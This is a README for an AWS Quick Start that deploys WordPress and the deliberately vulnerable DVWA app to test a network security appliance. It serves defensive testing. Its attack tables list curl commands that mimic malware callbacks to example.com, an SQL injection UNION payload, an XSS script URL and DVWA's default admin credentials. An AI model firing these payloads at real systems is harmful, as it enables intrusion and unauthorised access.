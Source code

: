 # quickstart-network-security-edge-deployment
## Network Security Edge Deployment in WordPress High Availability DVWA environment on AWS Cloud

Note: This Quick Start is an adaptation of original [Wordpress High Availability By Bitnami](https://github.com/aws-quickstart/quickstart-bitnami-wordpress). The original quickstart has been modified to include DVWA instance in the deployment. 

This Quick Start deploys WordPress High Availability by Bitnami, which includes WordPress and Amazon Aurora, in a highly available environment on AWS in about 40 minutes. It also deploys Damn Vulnerable Web Application (DVWA) in one of the public subnets. The purpose of this quickstart is to provide users a sample environment where they can deploy Network Security Virtual Appliance to protect their resources including web servers and databases etc.

After deploying this Quick Start, you will be able to:

- Deploy Network Security Virtual Appliance (NSVA) as an [Edge Protection](https://cloudone.trendmicro.com/docs/network-security/option1/)
- Configure your security profile in Cloud One Network Security console by distributing various Intrustion Prevention (IPS), Geo Filters to prevent your resources from inbound and outbound attack.
- Perform various inbound and outbound attacks to validate protection.
- Access logs of Network Security Virtual Applicance (NSVA) to verify which filters are getting triggered.

## Quick Start architecture for WordPress High Availability by Bitnami and DVWA on AWS

<img src="docs/edge_deployment.png" name="Network Security Edge Deployment">

## Deployment Steps

### 1. Deploy sample Wordpress environment with DVWA 
The Quick Start offers two deployment options:

- Deploying WordPress High Availability by Bitnami and DVWA into a new virtual private cloud (VPC) on AWS
- Deploying WordPress High Availability by Bitnami and DVWA into an existing VPC on AWS

For architectural details, best practices, step-by-step instructions, and customization options, see the 
[Bitnami quickstart deployment guide](https://fwd.aws/arqWN).

Before proceeding to deploy the Quick Start, please create a new SSH key pair for DVWA instance in the AWS region you will be deploying the Quick Start to. You may use the same key pair as the one you created for Bastion hosts if you don't want to create an additional keypair.

Below are the additional parameters for DVWA Configuration that the Quickstart uses:
### DVWA Configuration

| Parameter label (name)                                   | Default        | Description        |
| :--------------------------------------------------------| :------------- | :--------------- |
| DVWA Instance Type (DVWAInstanceType)                    | t2.micro       | Amazon EC2 instance type for the DVWA instance            |
| Allowed DVWA External Access CIDR (DVWARemoteAccessCIDR) | 127.0.0.1/32   | The CIDR IP range that is permitted external SSH access to the bastion host instances. We recommend that you set this value to a trusted IP range |
| SSH KeyPair Name (DVWAKeyPairName)                       | Requires input | A public/private key pair, which allows you to connect securely to your instance after it launches. When you created an AWS account, this is the key pair you created in your preferred region |

### 2. Deploying Network Security to your environment

After the CloudFormation stack is successfully deployed, please use the deployment wizard in your CloudOne Network Security console to deploy Network Security Appliance in your environment. For detailed step-by-step instructions on deploying Network Security please check [Deploy Protection](https://cloudone.trendmicro.com/docs/network-security/add_cloud_accounts_appliances/) section

Once the Network Security Virtual Appliances have been succcessfully deployed, make sure they are visible in the CloudOne console and are reporting 'Active' status.

Your environment is now ready to inspect inbound and outbound traffic!

### 3. Perform IPS, Geo and SQL Attacks

Before performing each attack, please perform the following steps:
1. Configure respective filter to Block and Log mode in Cloud One console. For detailed steps please check [Customize filter settings using the GUI](https://cloudone.trendmicro.com/docs/network-security/Customize_filter_settings_GUI/)
2. Distribute profile with filter overrides. For detailed steps please check [Distribute filter overrides to your network](https://cloudone.trendmicro.com/docs/network-security/Filter_overrides_GUI/)

### Outbound Attacks

Below is the list of outbound attacks you can perform from your Wordpress WebServer. You will need to SSH into the webserver instance via Bastion Host that is created as part of the Quick Start setup.

| Filter ID  | Attack                                                   |
| :--------- | :------------------------------------------------------------ |
| 25492      | `curl -H 'User-Agent: sdvntyer' http://www.example.com/api/v88` |
| 34738      | `curl 'http://www.example.com/includes/main.php?t=7d4580a3910c54d62b46f24c397c8d59&f=g2&type=cmd&id=D7CB4B6E5A21CA596DE0A7E10059C85E'`|
| 38451      | `curl -H 'User-Agent: ArcherGhost' -d 'post=eyJkYXRhIjogeyJkb21haW4iOiAiaHR0cDovL3RhcmdldDEyMy5jb20vYXNzZXRzL3ZlbmRvci9waHB1bml0L3BocHVuaXQvc3JjL1V0aWwvUEhQL3Nzc3AucGhwIiwgInNlcnZlciI6ICIxOTIuMTY4LjEwNy4xOSIsICJ0aXRsZSI6ICJqcSJ9LCAidHlwZSI6ICJzY2FubmVyIn0%3D' http://www.example.com/adeliap/404.php` |

### Geo Filter Attacks

In order to perform Geo Filter attacks, you need to first configure Geo Filters in Cloud One console by selecting a geographic region to block traffic. For detailed steps on how to configure Geo Filters, please check [Geolocation Filter](https://cloudone.trendmicro.com/docs/network-security/Geo_Location_filtering/). 

Below is the list of geofilter attacks you can perform from your Wordpress WebServer. You will need to SSH into the webserver instance via Bastion Host that is created as part of the Quick Start setup.

| Region | Attack |
| :----- | :----------------------|
| China  | `curl https://baidu.com` |
| Russia | `curl https://mail.ru `  |

### SQL Attacks

SQL Attacks can be performed on DVWA server that is spun up as part of the Quick Start. In order to perform SQL Attacks, you wil need to first configure the application security level to "Low" in order for attacks to work properly. This can be done as follows:

1. Login to DVWA application from your browser. You can retrieve the DVWAPublicIP from the "Output" tab of your DVWA CloudFormation stack. The URL would be http://<DVWAPublicIP>
2. Login to Web Application using following default credentials
    Username: admin
    Password: password
3. Go to DVWA Security menu on the side navigation panel
4. Set Security Level to "Low" and hit Submit button

Below are some SQL attacks you can perform on your DVWA server

| Filter ID  | Attack                                                   |
| :--------- | :------------------------------------------------------------ |
| 3593      | 1. Go to SSL Injection menu on the side navigation panel<br />2. Enter `?id=a' UNION SELECT "text1","text2";-- -&Submit=Submit` in "User ID" text box and hit submit |
| 12365      | On your browser, enter `http://<DVWAPublicIP>/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(1)%3C/script%3E` |